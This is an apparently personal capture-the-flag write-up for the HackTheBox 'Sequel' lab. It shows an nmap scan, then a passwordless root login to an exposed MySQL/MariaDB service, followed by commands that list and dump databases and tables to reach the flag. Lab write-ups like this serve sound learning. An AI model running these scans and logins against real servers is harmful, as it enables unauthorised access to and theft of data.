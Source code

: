 ![[Sequel.png]]
#HackTheBox #Starting-point #VeryEasy 
## Scan Port
```bash
nmap -sC -sV {TARGET IP}
```
We can get  port `3306/tcp`, that's mysql service
## Connect to Sequel with MYSQL/MariaDB
```bash
mysql -h {TARGET IP} -u root

//MYSQL/MariaDB//
help;
show databases;
use {database};
show tables;
select * from {table};
```
`-h` command for host
`-u` command for user (user `root` without password)
`help` command for print commands that can you use
`show databases` command for print all databases
`show tables` command for print all databases
`select * from {table}` command for print all contents of the selected table
Congratulations! you got the flag!!
